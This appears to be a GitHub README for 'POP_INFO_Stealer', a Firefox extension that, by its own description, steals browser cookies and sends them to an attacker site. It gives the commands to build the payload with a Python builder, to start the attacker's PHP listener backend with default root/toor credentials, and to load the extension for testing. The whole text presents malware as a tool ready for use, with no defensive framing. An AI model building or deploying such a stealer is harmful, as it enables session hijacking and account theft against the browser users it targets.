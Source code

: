 # POP_INFO_Stealer
firefox extension that steal browser cookies 
tested on Mozilla Firefox (115.6.0)
it send cookies to attacker site 
# requirements 
`python3
&
7z`
# building payload
`cd pop_add_bilder;python3 pop_add_bilder.py`


![ building payload](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/buliding.png)
# listener
`cd Attacker_backend;sudo php -S 127.0.0.1:80`
# username : root , password : toor
![ listener ](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/listener.png)

![ attacker](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/attacker.png)

# cleaning sessionStorage
`just load the manifest.json from clear_sessionStorage_add folder`


# testing 

go to

`about:debugging#/runtime/this-firefox`

